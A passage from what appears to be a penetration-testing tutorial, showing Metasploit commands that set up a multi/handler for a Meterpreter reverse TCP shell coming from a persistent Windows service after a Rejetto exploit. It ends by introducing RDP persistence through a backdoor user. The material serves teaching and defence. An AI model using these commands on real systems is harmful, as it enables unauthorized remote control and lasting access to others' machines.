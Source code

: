 
#### 5. Handling the Payload

To handle the reverse connection from the persistent service:

```bash
sessions -k 1
```

Use the multi-handler to catch the reverse shell from the persistent payload:

```bash
use multi/handler
```

Set the appropriate payload for the handler:

```bash
set payload windows/meterpreter/reverse_tcp
```

Display the options for the multi-handler:

```bash
show options
```

Configure the options:

```bash
set lhost eth1
set lport 4433
```

Run the multi-handler to listen for the reverse connection:

```bash
run
```

---

#### Conclusion

In this demo, we:
- Scanned the target system to identify vulnerabilities.
- Exploited the Rejetto vulnerability to gain a Meterpreter session with Administrator privileges.
- Established persistence on the target system through a Windows service.
- Set up a multi-handler to catch future reverse connections from the persistent service.

This method demonstrates how an attacker can maintain access to a compromised system, highlighting the importance of securing services and monitoring for unauthorized changes.

--- 

### Windows Persistence Via RDP (Demo)

In this demo, we will demonstrate how to establish persistence on a Windows system using Remote Desktop Protocol (RDP) by creating a backdoor user. This method allows an attacker to regain access to the system at any time.

---